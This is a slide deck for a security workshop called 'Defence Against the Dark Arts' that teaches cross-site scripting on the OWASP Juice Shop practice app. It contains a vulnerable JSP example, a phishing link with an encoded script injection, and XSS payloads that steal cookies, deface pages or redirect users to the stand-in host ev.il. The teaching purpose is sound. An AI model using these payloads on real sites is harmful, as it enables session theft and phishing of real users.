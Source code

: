 ```yaml
---
title: Defence Against the Dark Arts
theme: solarized
revealOptions:
    transition: 'fade'
---
```


# Defence Against the Dark Arts

> #3: London, 13th February, 2020

---

## Purpose

> A place where we can practice the techniques used to attack applications,
in order to understand them, and to defend against them.

---

## Session rules

 * There are no stupid questions!
 * If you'd like to share (or learn) more about a topic by leading a session, let us know!
 * Participate as you would in a pairing session

---

## Important rule!

*Get permission* before attacking a system

Or, attack your own.

---

# Cross-Site Scripting (XSS)

---

## What is it?

* An attacker uses XSS to send a script to an unsuspecting user
* The end-user's browser has *no way to know the script should not be trusted*, and will execute it

---

## Root Cause

* Web applications vulnerable to XSS...

   * include untrusted data (usually from an HTTP request) into dynamic content
   * that is then sent to a web user without previously validating for malicious content

---

## Typical Impact

* Steal user's session
* Steal sensitive data
* Rewrite the web page
* Redirect the user to a malicious site

---

## Typical Phishing Email

<small style="text-align: left">
Dear valued customer!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize
**now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)

Sincereely yours,

Bjorn Kimminich CEO of Juice Shop Inc.

<small><small>_Juice Shop Inc. is registered as a bla bla bla bla yadda
yadda yadda more assuring legal bla All logos and icons are trademarks
of Juice Shop Inc. Copyright (c) 2018 Juice Shop
Inc._</small></small></small>

---

## Risk Rating

* Exploitability: Easy
* Prevalence: Widespread
* Detectability: Easy
* Impact: Moderate

---

## Vulnerable Code Example

```
<!--search.jsp-->

<%String searchCriteria = request.getParameter("searchValue");%>
```

might forward to the following page when executing the search:

```
<!--results.jsp-->

Search results for <b><%=searchCriteria%></b>:

<table>
<!-- Render the actual results table here -->
</table>
```

---

## Benign Usage

` https://my-little-application.com/search.jsp?searchValue=blablubb `

results in the following HTML on the `results.jsp` page:

```html
Search results for <b>blablubb</b>:
```

rendering as:

<hr>

Search results for <b>blablubb</b>:

---

## Exploit Example (HTML Injection)

` .../search.jsp?searchValue=</b><img src="https://placekitten.com/g/100/100"/><b> `

results in the following on the `results.jsp` page:

```html
Search results for
  <b></b><img src="https://placekitten.com/g/100/100"/><b></b>:
```

rendering as:

<hr>

Search results for <b></b><img
src="https://placekitten.com/g/100/100"/><b></b>:

---

## XSS Attack Payload Examples

#### Stealing User Session

```
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement

```
<script>document.body.background="http://ev.il/image.jpg";</script>
```

#### Redirect

```
<script>window.location.assign("http://ev.il");</script>
```

---

# Forms of XSS

* **Reflected XSS**: Application includes unvalidated and unescaped user
  input as part of HTML output
* **Stored XSS**: Application stores unsanitized user input that is
  viewed at a later time by another user
* **DOM XSS**: JavaScript frameworks & single-page applications
  dynamically include attacker-controllable data to a page

The previous example vulnerability and exploit of
`results.jsp` is a typical Reflected XSS.

---

## Reflected XSS

![Монгол: Reflected XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0](images/reflected-xss.png)

---

## Stored XSS

![Монгол: Stored XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0](images/stored-xss.png)

---

## DOM XSS

![Монгол: DOM-based XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0](images/dom-xss.png)

---

## Challenge

1. Identify places where user input is _directly_ included in the output
2. Perform a successful _Reflected XSS_ attack (1 star)
3. Perform a successful _DOM XSS_ attack (1 star)

_Make sure that you really understand the subtle difference
between those two underlying vulnerabilities._

---
